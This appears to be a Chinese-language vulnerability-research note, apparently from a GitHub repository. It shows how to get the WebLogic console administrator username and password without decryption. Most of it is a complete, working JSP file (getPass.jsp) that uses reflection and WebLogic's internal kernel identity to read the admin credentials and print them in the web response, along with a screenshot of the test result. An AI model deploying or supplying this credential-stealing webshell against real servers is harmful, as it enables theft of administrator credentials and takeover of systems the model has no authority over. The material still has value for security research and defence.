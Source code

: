 目录
- 01 获取Weblogic console用户名&密码(免解密)-getPass.jsp


### 获取Weblogic console用户名&密码(免解密)-getPass.jsp

以往遇上weblogic的站点时都是通过密钥进行解密获取console的密码，甚至但是解密方法就出现好几种，

![image](vulnerability-research.assets/144720808-7e3efafd-8126-4994-bd78-945e314ff3ac.png)

但是前几个小时在twitter @jas502n师傅公开了[Use T3 protocol Get weblogic console username, password](https://twitter.com/jas502n/status/1467122190760177664)这个姿势，于是赶紧学习学习！！！


断点看看代码细节：

![image](vulnerability-research.assets/144720899-5b80c842-e6dd-47c2-b2fc-e3c60ba2a8f5.png)

代码实现

> ```jsp
> <%@page import="java.lang.reflect.Field" %>
> <%@page import="java.lang.reflect.Method" %>
> 
> <%
>   /**
>    * 已测试：
>    *  10.3.6.0
>    */
>   try{
>     ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
>     Class httpDataTransferHandler = classLoader.loadClass("weblogic.deploy.service.datatransferhandlers.HttpDataTransferHandler");
>     Class managementService = classLoader.loadClass("weblogic.management.provider.ManagementService");
>     Class authenticatedSubject = classLoader.loadClass("weblogic.security.acl.internal.AuthenticatedSubject");
>     Class propertyService = classLoader.loadClass("weblogic.management.provider.PropertyService");
>     Field KERNE_ID = httpDataTransferHandler.getDeclaredField("KERNE_ID");
>     KERNE_ID.setAccessible(true);
>     Method getPropertyService = managementService.getMethod("getPropertyService",authenticatedSubject);
>     getPropertyService.setAccessible(true);
>     Object prop = getPropertyService.invoke((Object) null,KERNE_ID.get((Object) null));
>     Method getTimestamp1 = propertyService.getMethod("getTimestamp1");
>     getTimestamp1.setAccessible(true);
>     Method getTimestamp2 = propertyService.getMethod("getTimestamp2");
>     getTimestamp2.setAccessible(true);
>     String username = (String) getTimestamp1.invoke(prop);
>     String password = (String) getTimestamp2.invoke(prop);
>     response.getWriter().write( username + "/" + password);
>   }catch (Exception e) {
>     e.printStackTrace();
>   }
> %>
> ```

测试效果

![image](vulnerability-research.assets/144720974-59cb9fd5-65df-4dae-a9f8-fd103719f499.png)

